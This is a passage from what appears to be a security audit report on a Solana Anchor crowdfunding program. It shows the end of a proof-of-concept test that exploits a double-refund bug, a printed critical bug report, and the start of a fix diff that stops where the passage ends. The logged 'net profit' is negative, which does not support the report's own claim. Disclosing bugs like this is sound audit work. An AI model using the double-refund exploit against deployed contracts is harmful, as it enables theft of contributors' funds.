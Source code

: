 ```javascript
  // Second refund (exploit)
  await program.methods
    .refund()
    .accounts({
      fund: exploitFundPDA,
      contribution: exploitContributionPDA,
      contributor: creator.publicKey,
      systemProgram: anchor.web3.SystemProgram.programId,
    })
    .rpc();

  const balanceAfterExploit = await provider.connection.getBalance(
    provider.wallet.publicKey
  );

  console.log(`Contributed 0.1 SOL once but refunded multiple times`);
  console.log(
    `Net profit from exploit: ~${
      (balanceAfterExploit - balanceBeforeContribution) / 1000000000
    } SOL`
  );
});
```

Output:

```javascript
========================================
🐛 BUG REPORT [CRITICAL]: Contribution Tracking Exploit
----------------------------------------
Description: User can refund multiple times after deadline because contribution amounts aren't properly tracked
Evidence: Contributed 0.1 SOL once but was able to refund multiple times. Net profit from exploit: ~-0.101462656 SOL
========================================
```

## Tools Used

- Anchor framework for testing
- Manual code review

## Recommendations

1. Properly track contribution amounts as mentioned in Finding
2. Update the refund function to reset the contribution amount after refunding:

```diff
pub fn refund(ctx: Context<FundRefund>) -> Result<()> {
    let amount = ctx.accounts.contribution.amount;

    // Proceed with refund only if amount > 0
    if amount == 0 {
        return Err(ErrorCode::NothingToRefund.into());
    }

    if ctx.accounts.fund.deadline != 0 && ctx.accounts.fund.deadline > Clock::get().unwrap().unix_timestamp.try_into().unwrap() {
        return Err(ErrorCode::DeadlineNotReached.into());
    }

    **ctx.accounts.fund.to_account_info().try_borrow_mut_lamports()? =
    ctx.accounts.fund.to_account_info().lamports()
    .checked_sub(amount)
```